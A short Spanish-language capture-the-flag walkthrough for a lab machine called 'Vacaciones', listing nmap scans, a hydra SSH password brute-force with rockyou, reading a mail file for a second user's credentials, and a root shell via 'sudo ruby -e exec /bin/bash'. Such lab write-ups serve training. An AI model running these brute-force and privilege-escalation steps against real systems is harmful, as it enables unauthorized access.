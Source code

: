 Maquina: Vacaciones
Autor: Romabri
Dificultad: Muy Facil

ping 172.17.0.2 -c 1

sudo nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

sudo nmap -sCV -p22,80 172.17.0.2 -oN targeted

miramos la web
https://172.17.0.2
obtenemos 2 usuarios que podemos explotar

sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
obtenemos password de camilo

ssh camilo@172.17.0.2

sudo -l
vemos que camilo no tiene permisos

buscamos el correo que nos ponia en la web
/var/mail$ cd camilo
ls
cat correo.txt
y descubrimos las credenciales del otro usuario

accedemos a juan por ssh
ssh juan@172.17.0.2

sudo -l
descubrimos que podemos ejecutar ruby como usuario root
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
whoami
